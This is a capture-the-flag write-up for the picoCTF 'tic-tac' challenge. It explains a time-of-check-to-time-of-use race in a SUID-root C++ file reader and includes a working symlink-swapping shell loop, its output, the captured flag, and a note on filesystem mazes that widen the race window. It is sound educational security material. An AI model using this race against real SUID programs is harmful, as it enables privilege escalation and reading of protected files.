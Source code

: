 ## Description
>Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it. `ssh` to `saturn.picoctf.net:62983`, and run the binary named "txtreader" once connected. Login as `ctf-player` with the password, `d137d16e`

---
Upon ssh into machine, we see `txtreader` binary and flag.txt file, however we don't have permissions to read them. Fortunately, they also give us the pre-compiled code for `txtreader` so that we might get a better idea on what's going on:
```cpp
#include <iostream>  
#include <fstream>  
#include <unistd.h>  
#include <sys/stat.h>  
  
int main(int argc, char *argv[]) {  
 if (argc != 2) {  
   std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;  
   return 1;  
 }  
  
 std::string filename = argv[1];  
 std::ifstream file(filename);  
 struct stat statbuf;  
  
 // Check the file's status information.  
 if (stat(filename.c_str(), &statbuf) == -1) {  
   std::cerr << "Error: Could not retrieve file information" << std::endl;  
   return 1;  
 }  
  
 // Check the file's owner.  
 if (statbuf.st_uid != getuid()) {  
   std::cerr << "Error: you don't own this file" << std::endl;  
   return 1;  
 }  
  
 // Read the contents of the file.  
 if (file.is_open()) {  
   std::string line;  
   while (getline(file, line)) {  
     std::cout << line << std::endl;  
   }  
 } else {  
   std::cerr << "Error: Could not open file" << std::endl;  
   return 1;  
 }  
  
 return 0;  
}
```
Essentially, the file first checks if the file exists, then checks if our permission to view the file. If we are allowed to view, it will read the file contents. It's also worth noting that `txtreader` has SUID bit set, allowing it to run as root when we use:
```
$ ls -l txtreader    
-rwsr-xr-x 1 root root 19016 Mar 16 02:28 txtreader
```
If we can send the textreader to open a file we have permissions on, then quickly swap it with a file linked to the flag, we should be able to trick the program into reading the flag contents for us. This is known as a Race Condition, or **TOCTOU** type of problem. 
[This video by John Hammond](https://youtu.be/HbCCrF9GOtQ) covers a similar CTF challenge, and the solution can be done with the same approach.
	1. We will create our own file called `link` with touch, that we can read/write to.
	2. We will start `txtreader`, and tell it to read `link`, which is owned by us.
	3. `txtreader` will check the file, and confirm we have permission to read the file
	4. We will delete `link`, and create a new `link` file that is symlinked to flag.txt. Now when things want to interact with `link`, they are pointed to flag.txt
	5. `txtreader` will attempt to read `link`, except it now points to `flag.txt`. Since it already confirmed we have permissions, it will output the contents of `flag.txt`
Since `txtreader` won't be waiting for us to manipulate the files in between actions, we have to be very fast, hence the race aspect.  Our human action speeds aren't nearly good enough, so what we can do is loop the action of swapping `link` , while also looping the run of `txtreader`. After enough runs, hopefully our action timings will line up and we can get the flag.
### Racing with an infinite loop:
Making the link loop, `linker.sh`:
```
while true
do
	rm link
	touch link
	rm link
	ln -s /home/ctf-player/flag.txt link
done
```

Setting up the linker loop and running `txtreader`:
```
ctf-player@pico-chall$ chmod +x linker.sh 
ctf-player@pico-chall$ ./linker.sh 
rm: cannot remove 'link': No such file or directory
^Z
[1]+  Stopped                 ./linker.sh
ctf-player@pico-chall$ bg 1
[1]+ ./linker.sh &
ctf-player@pico-chall$ while [ 1 ]; do ./txtreader link; done 2>/dev/null
picoCTF{ToctoU_!s_3a5y_f482a247}
```
Overall while this method works, it is not very reliable. Sometimes you can get lucky and the flag is read after a few minutes of running, other times it had not succeeded once in the full 15min duration of the instance.

picoCTF{ToctoU_!s_3a5y_f482a247}

### Reliable race fixing?
It might be possible to "fix" the race for us, resulting in very reliable success of flag read. [This post](https://www.usenix.org/legacy/events/fast08/tech/full_papers/tsafrir/tsafrir_html/index.html)  describes using a filesystem maze too large for the system to handle in memory at once, allowing for a more clear window of opportunity for us to switch targets. 
The maze consists of many nested folders, containing symlinks pointing to another batch of nested folders. After repeating for x times, the final link points to the file we own. The maze is too large to be placed in the filesystem cache, and this process results in slower navigation and an increased delay between the action of checking permissions and the action of reading the file contents.

While I did not have time to utilize this trick on tic-tac, it might be worth exploring on another CTF challenge.
